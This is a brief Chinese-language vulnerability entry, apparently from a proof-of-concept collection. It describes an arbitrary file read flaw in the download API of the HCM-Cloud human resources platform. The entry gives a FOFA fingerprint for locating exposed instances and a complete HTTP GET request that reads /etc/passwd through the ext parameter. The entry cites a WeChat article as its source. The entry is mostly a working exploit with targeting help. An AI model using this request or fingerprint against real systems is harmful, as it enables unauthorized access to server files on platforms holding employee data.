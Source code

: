 # HCM-Cloud云端专业人力资源平台download任意文件读取漏洞

HCM-Cloud云端专业人力资源平台download任意文件读取漏洞

## fofa

```javascript
icon_hash="-859381597"
```

## poc

```javascript
GET /api/model_report/file/download?index=/&ext=/etc/passwd HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Connection: close
```

![3ccd7062314c3695db376759d9f74d02](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410241250278.png)



## 漏洞来源

- https://mp.weixin.qq.com/s/nvV7_ZGDqSUZJ5FNEWDhKw